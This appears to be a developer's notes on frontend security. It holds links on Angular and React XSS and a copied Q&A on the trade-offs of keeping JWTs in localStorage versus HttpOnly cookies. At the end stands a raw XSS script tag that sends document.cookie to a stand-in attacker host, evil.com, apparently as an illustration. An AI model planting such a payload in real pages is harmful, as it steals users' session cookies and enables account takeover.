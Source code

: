https://angular.io/guide/security

Angular Security

https://www.codemag.com/article/1805021/Security-in-Angular-Part-1

https://ordina-jworks.github.io/angular/2018/03/30/angular-security-best-practices.html


React js

https://medium.com/dailyjs/exploiting-script-injection-flaws-in-reactjs-883fb1fe36c1

https://medium.com/javascript-security/avoiding-xss-in-react-is-still-hard-d2b5c7ad9412


I just red the following post regarding Localstorage and security.
https://www.rdegges.com/2018/please-stop-using-local-storage/

Basically it warn against to save sensitive data on the Localstorage because 
it may be subject of XSS attack. His explanation makes sense, but loads of tutorials says the contrary.

What is your position regarding saving JWT on the LocalStorage of the browser?

it a good question, let me see if I can help. It all depends on the level of security 
we are looking for in our application. For example, the popular authentication 
provider Auth0 shows most of their examples using local storage, so I wouldn't say that it's a wrong solution.
In the Angular Security Course we also show how to store the JWT in a HTTP Only Secure cookie. 
This type of cookies is not accessible via Javascript, and its only sent by the browser over HTTPS connections.
That is indeed even better in terms of security that storing the token in local storage, 
because the JWT is not accessible by Javascript at all, including from our own code.
If we use a cookie this means that we need to add CSRF defenses to our application.
We also need a separate login page that sets the cookie after authenticating 
with the backend, etc. so the implementation is a bit more advanced but definitively doable.

In summary, I think for most applications receiving the JWT in a URL parameter 
after redirection from login page and storing it in local storage is OK, 
in the sense that it's a sufficiently good solution. If developing a banking site 
I would not use this, and use instead a secure HTTP Only cookie. So its a trade-off 
between security and ease of implementation, as it usual comes down to in this type 
of design decisions, there is not only one right solution. 

<script>
window.location="http://evil.com/?cookie=" + document.cookie
</script>

